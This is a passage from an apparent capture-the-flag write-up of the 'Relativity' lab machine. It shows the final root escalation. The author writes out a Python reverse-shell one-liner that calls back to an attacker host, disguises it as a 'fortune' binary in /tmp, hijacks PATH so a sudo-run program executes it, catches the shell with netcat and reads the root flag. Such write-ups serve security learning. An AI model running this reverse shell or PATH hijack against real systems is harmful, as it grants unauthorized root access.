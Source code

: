 This time I used a [Python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

``` plain
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.80.130",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I updated it with my host address and port, put it in a file named fortune, gave it permissions and updated  the  path to start looking in */tmp/*:

``` plain

[jetta@Relativity ~]$ chmod 777 /tmp/fortune

[jetta@Relativity ~]$ export PATH="/tmp:$PATH"

[jetta@Relativity ~]$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/jetta/.local/bin:/home/jetta/bin
```

On my machine I had netcat listen for connections:

``` plain
root@kali:~# nc -vnlp 5555
nc: listening on :: 5555 ...
nc: listening on 0.0.0.0 5555 ...
```

And now I ran <code>auth_server</code> again:

``` plain
[jetta@Relativity ~]$ sudo /home/jetta/auth_server/auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
```

And on my netcat side:

``` plain
sh-4.2# whoami
whoami
root
sh-4.2# cat /root/flag.txt
cat /root/flag.txt
65afa0e5928b98f7ae283e16df2d43bf
```

Was curious about the hash, ran it in an online decrypter, the result was *sagishahar*. 

Markdown formatting was a pain in the ass for cowsay, so a slightly different fortune cookie format, but straight from the cow's mouth!

{% img center /images/pentest/relativity/cookie.png 'cookie' 'fortune cowsay' %}



